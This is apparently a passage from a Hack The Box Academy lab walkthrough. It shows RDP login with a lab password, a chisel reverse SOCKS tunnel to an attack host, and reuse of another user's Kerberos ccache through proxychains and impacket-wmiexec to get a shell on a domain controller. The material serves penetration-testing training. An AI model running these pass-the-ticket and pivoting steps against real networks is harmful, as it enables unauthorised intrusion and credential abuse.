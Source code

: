 ### **Connect to MS01 with xfreerdp**

```shell-session
$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

### **Execute chisel from MS01**

```cmd-session
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

{% hint style="info" %}
**Note:** The client IP is your attack host IP.
{% endhint %}

Finally, we need to transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file.

### **Setting the KRB5CCNAME Environment Variable**

```shell-session
$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

{% hint style="info" %}
**Note:** If you are not familiar with file transfer operations, check out the module [File Transfers](https://academy.hackthebox.com/module/details/24).
{% endhint %}

### Impacket

To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option `-k`. If we get a prompt for a password, we can also include the option `-no-pass`.

### **Using Impacket with proxychains and Kerberos Authentication**

```shell-session
$ proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```
